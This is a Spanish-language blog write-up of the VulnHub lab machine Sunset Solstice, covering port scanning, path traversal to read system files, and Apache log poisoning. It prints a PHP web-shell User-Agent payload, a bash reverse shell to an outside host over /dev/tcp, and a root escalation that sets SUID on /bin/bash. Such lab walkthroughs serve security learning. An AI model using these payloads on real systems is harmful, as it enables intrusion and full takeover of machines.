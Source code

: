 ```yaml
---
layout: single
title: Sunset Solstice - VulnHub
excerpt: " In this machine, we will learn about LFI (Local File Inclusion) and How to create an exploit or poisoning via apache `access.log` (apache log poisoning through lfi). For Privilege Escalation is how to change `index.php` codes to PHP simple reverse shell script on the webserver."
date: 2023-04-22
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-solstice/solstice.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - Path Traversal
  - Apache
  - Log Poisoning
  - Internal Web Server
  - PHP
---
```


In this machine, we will learn about LFI (Local File Inclusion) and How to create an exploit or poisoning via apache `access.log` (apache log poisoning through lfi). For Privilege Escalation is how to change `index.php` codes to PHP simple reverse shell script on the webserver.

# Summary
- IP: 192.168.1.5
- Ports: 21,22,25,80,139,445,2121,3128,8593,54787,62524
- OS: Linux (Ubuntu)
- Services & Applications:

```js
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp    open  smtp        Exim smtpd 4.92
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
3128/tcp  open  http-proxy  Squid http proxy 4.6
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
62524/tcp open  ftp         FreeFloat ftpd 1.00
```

<br><br>
# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.5 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p21,22,25,80,139,445,2121,3128,8593,54787,62524 -sCV 192.168.1.5 -oN targeted
```

<br><br>
# Análisis de página web (Port 80):

- En la página web principal de este puerto no encontramos nada interesante.
<br><br>
# Análisis de página web (Port 8593):

- Dentro de aquí podemos observar dos enlaces con las etiquetas "Main Page" y "Book List", si hacemos click en la primera no nos lleva a nada, sin embargo, si hacemos click en "Book List" podemos darnos cuenta que en el enlace está usando un parámetro "book" para apuntar a un recurso "list", intentamos hacer un `PATH TRAVERSAL` para verificar si podemos enumerar recursos de la máquina víctima:

```
http://192.168.1.5:8593/index.php?book=../../../../../etc/passwd
```

- Efectivamente nos muestra el contenido del "/etc/passwd" así que ahora buscamos la manera de aprovechar este LFI y derivarlo a un RCE.
<br><br>
# Log Poisoning Apache:

- Buscamos el archivo de configuración de apache:

```
http://192.168.1.5:8593/index.php?book=../../../../../var/log/apache2/access.log
```

- Y sí que nos muestra los registros del log de las sesiones del servidor Apache, así que podemos usar esto para ganar un `RCE` haciendo `LOG POISONING`.

- Primero debemos confirmar a qué puerto este log está haciendo referencia, así que hacemos una petición usando el navegador, primero hacia la página web principal del puerto 80.

```
http://192.168.1.5/Holaaaaaaaaaa
```

- Ahora recargamos la página del log de apache y al final de todo deberíamos ver la petición que hicimos, y en este caso sí que nos muestra la petición al recurso de ejemplo "Holaaaaaaaaaa", por lo que podemos confirmar que el `log de Apache` está tomando registro de las peticiones hechas al puerto 80.

- Sabiendo esto, abrimos Burpsuite y mandamos la misma petición del puerto 80 al Repeater y, como en el log de apache se nos muestra como parte del Output el "User-agent", usando Burpsuite lo modificaremos inyectando código PHP el cual será interpretado ya que en la URL podemos evidenciar que el recurso que estamos usando para abrir el log se deriva del recurso "index.php", lo que nos dice que cualquier código PHP que logremos inyectar, se interpretaría.

- Dentro del repeater de Burpsuite, con la petición hecha, modificamos el `user-agent` por lo siguiente:

```js
User-Agent: <?php system($_GET['cmd']); ?>
```

- Hecho esto, le damos en "send" para realizar la petición y ahora si nos dirigimos al recurso del log de `apache` y apuntamos al parámetro "cmd" nos debería permitir ejecutar comandos del sistema:

```
view-source:http://192.168.1.5:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=ls -l /
```
- Confirmado esto lo que resta por hacer es entablar una `reverse shell` y ganar acceso al sistema.


```
view-source:http://192.168.1.5:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.35/443 0>%261"
```
<br><br>

# ESCALANDO PRIVILEGIOS:

- Verificamos `permisos SUID`:

```bash
$find / -perm -4000 2>/dev/null
```

```js
/var/tmp/sv
/var/tmp/ftp
/var/tmp/ftp/pub
```

<br><br>
# Servidor web interno:

- Sospechamos de estos directorios que no son comunes de ver con permisos `SUID`, así que revisamos el primero:

```bash
$cd /var/tmp/sv/
$ls
```

```js
index.php
```

- Vemos que hay un recurso "index.php" por lo que podríamos sospechar que se trata de un `servidor web`; si revisamos permisos vemos que el propietario de dicho recurso es "root" y podemos modificarlo dado que tiene permisos SUID.

- Buscamos indicios de que se trate de un servidor web interno montado en la máquina buscando entre todos los procesos:

```bash
$ps faux | grep "/var/tmp/sv"
```

```js
www-data  1221  0.0  0.0   6076   884 pts/0    S+   13:54   0:00  |                                   \_ grep /var/tmp/sv
root       354  0.0  0.0   2388   692 ?        Ss   13:23   0:00      \_ /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
root       394  0.0  2.0 196744 21164 ?        S    13:23   0:00          \_ /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
```

- Podemos notar en la segunda linea como un proceso iniciado por "root" ejecuta un `servidor php` en el puerto 57 usando los recursos del directorio en el que estamos.

- Sabiendo esto, lo que podemos hacer es modificar el "index.php" inyectando código `php` que nos ejecute un comando determinado dentro del sistema, ya que al acceder a dicho recurso del servidor web interno, dicho comando que inyectaremos se ejecutará como "root":

```bash
$cat index.php 
```

```js
<?php system("chmod u+s /bin/bash"); ?>
```

- Ahora accedemos al recurso usando "curl" apuntando al puerto "57" que es en donde se encuentra alojado el servidor interno:

```bash
$curl "http://127.0.0.1:57"
```

- Hecho esto la bash ya debería tener permisos `SUID` y podemos ejecutarla con privilegios para acceder como el usuario root:

```bash
$ls -la /bin/bash
```

```js
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

```bash
$bash -p
```
